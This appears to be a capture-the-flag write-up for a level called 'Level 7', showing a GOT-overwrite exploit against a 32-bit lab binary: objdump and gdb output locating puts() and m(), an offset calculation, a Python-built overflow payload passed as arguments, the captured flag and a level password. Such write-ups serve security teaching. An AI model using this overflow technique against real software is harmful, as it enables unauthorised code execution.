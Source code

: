 # Level 7
*pass: f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d*

```
$ scp -P 4242 level7@192.178.56.108:level7 binary/
```
## GOT overwrite
objective : excute m() instead of puts()

```
$ objdump -R ./level7 

./level7:     file format elf32-i386
...
08049928 R_386_JUMP_SLOT   puts
...
$ gdb level7
(gdb) info funct m
...
0x080484f4  m
...
```

`m()` address : 0x080484f4\
`puts()` address : 0x08049928


offset = 3 * 4 = 12\
8 + 12 = 20

```
$ ./level7  $(python -c 'print "a" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1651857543
```
